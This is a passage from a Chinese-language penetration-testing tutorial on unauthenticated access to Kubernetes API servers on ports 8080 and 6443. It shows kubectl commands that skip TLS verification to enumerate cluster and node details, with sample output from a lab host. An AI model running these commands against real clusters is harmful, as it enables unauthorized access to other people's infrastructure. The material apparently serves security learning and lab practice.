 再次访问访问 6443 端口，即可未授权访问。

## 漏洞利用

### 命令执行

#### 查看 k8s 集群信息

8080 端口

```
kubectl -s http://your-ip:8080 cluster-info
```

6443 端口

```
kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ cluster-info
------
Please enter Username: test
Please enter Password: 
Kubernetes control plane is running at https://172.22.14.37:6443/
KubeDNS is running at https://172.22.14.37:6443//api/v1/namespaces/kube-system/services/kube-dns:dns/proxy
```

#### 查看 node 节点信息

8080 端口

```
# 查看node节点
kubectl -s http://your-ip:8080 get nodes

# 查看node节点详细信息
kubectl -s http://your-ip:8080 get nodes -o wide
```

6443 端口

```
# 查看node节点
kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ get nodes   
Please enter Username: 
Please enter Password: 
------
NAME         STATUS   ROLES    AGE    VERSION
ubuntu-k8s   Ready    master   244d   v1.16.6-beta.0

# 查看node节点详细信息
kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ get nodes -o wide
Please enter Username: 
Please enter Password: 
-----
NAME         STATUS   ROLES    AGE    VERSION          INTERNAL-IP    EXTERNAL-IP   OS-IMAGE             KERNEL-VERSION       CONTAINER-RUNTIME
ubuntu-k8s   Ready    master   244d   v1.16.6-beta.0   172.22.14.37   <none>        Ubuntu 18.04.6 LTS   4.15.0-213-generic   docker://24.0.2
```
